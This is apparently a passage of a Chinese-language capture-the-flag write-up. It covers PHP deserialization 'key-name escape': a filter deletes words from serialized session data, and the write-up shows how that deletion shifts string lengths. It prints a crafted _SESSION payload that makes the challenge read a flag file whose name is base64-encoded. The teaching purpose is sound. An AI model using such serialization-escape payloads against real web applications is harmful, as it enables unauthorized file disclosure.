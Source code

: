 ```php
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

**键名逃逸**

源码中存在对序列化后的字符串进行过滤的代码

![image-20240412105532357](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412105532357.png)

所以即使键名中存在符合要求的字符串都会被替换

![image-20240412105538358](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412105538358.png)

可以对键名进行逃逸

过滤前是这样的(其中`ZDBnM19mMWFnLnBocA==`是`d0g3_f1ag.php`的base64编码)

```php
a:2:{s:7:"phpflag";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

过滤后是这样的

```php
a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

对比完发现过滤前键名是phpflag，键值是后面48个字符串

过滤后phpflag没了，键名就变成了`";s:48:`但是后面我们构造的img键值对是需要被反序列化的，已经是一对了，键名`";s:48`它没有键值，所以我们应该给他一个键值`;s:1:"1`键值名凑和`";s:48:`一样七个字符就好了，所以我们应该构造payload：

```php
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

在源码当中发现新的线索
